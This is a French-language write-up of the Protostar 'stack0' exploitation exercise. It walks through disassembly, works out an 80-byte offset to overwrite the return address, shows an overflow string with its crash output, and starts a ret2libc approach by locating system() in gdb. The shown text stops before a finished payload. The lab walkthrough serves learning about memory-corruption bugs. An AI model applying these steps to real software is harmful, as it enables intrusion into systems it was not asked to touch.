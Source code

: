 Par exemple celui çi indique si une variable initialisée à 0 (`var_5ch`) a été modifiée et donc si on l'a écrasé en saisissant une chaine trop longue sur l'entrée standard.

La particularité ici est que l'exploitation se fait directement dans la fonction `main()` ce qui est assez rare pour ce type de challenge.

Toutefois ça ne change pas grand chose car l'appel original s'est fait par un `call` :

```nasm
0x08048357      push main          ; 0x80483f4 ; void *main
0x0804835c      call __libc_start_main ; sym.imp.__libc_start_main ; int __libc_start_main(void *main, int argc, char **ubp_av, void *init, void *fini, void *rtld_fini, void *stack_end)
0x08048361      hlt
```

On voit ici que 0x60 (96) octets sont alloués pour la stack frame donc ce qui sépare `ebp` de `esp`. Mais notre buffer est à `esp+0x1c` (`esp+28`) donc il faut écraser à minima 96 - 28 = 68 octets pour remplir la stack frame avant d'attaquer le saved-ebp et l'adresse de retour.

On va commencer par passer au programme cette chaine suivante générée par Python :

```python
"A" * 68 + "BBBB" + "CCCC" + "DDDD" + "EEEE" + "FFFF"
```

```bash
$ ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFF
you have changed the 'modified' variable
Segmentation fault
$ dmesg|tail -1
[ 7528.902449] stack0[1800]: segfault at 45454545 ip 45454545 sp bffffd00 error 4
```

On voit que `eip` est écrasé par `45454545` soit les caractères E. Il faut donc 80 caractères avant d'écraser `eip`.

Note: j'ai trouvé cet article sur les codes d'erreurs segfault : [Chris's Wiki :: blog/linux/KernelSegfaultErrorCodes](https://utcc.utoronto.ca/~cks/space/blog/linux/KernelSegfaultErrorCodes)

On va utiliser la technique de `ret2libc` car la stack n'est pas randomisée : l'adresse de `system()` sera toujours au même emplacement.

Il faut aussi passer sur la stack le chemin du programme que l'on veut exécuter. Idéalement c'est `/bin/sh` mais la chaine n'est pas présente dans l'exécutable. On pourrait la retrouver dans la mémoire du programme une fois lancé puisqu'il charge la libc mais ici on va juste réutiliser une chaine du programme et s'arranger pour qu'il y ait un programme du nom correspondant dans le path.

```
$ gdb ./stack0
GNU gdb (GDB) 7.0.1-debian
Reading symbols from /opt/protostar/bin/stack0...done.
(gdb) b *main
Breakpoint 1 at 0x80483f4: file stack0/stack0.c, line 6.
(gdb) r
Starting program: /opt/protostar/bin/stack0 

Breakpoint 1, main (argc=1, argv=0xbffffd64) at stack0/stack0.c:6
6       stack0/stack0.c: No such file or directory.
        in stack0/stack0.c
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) x/s 0x08048520
0x8048520:       "variable"
```
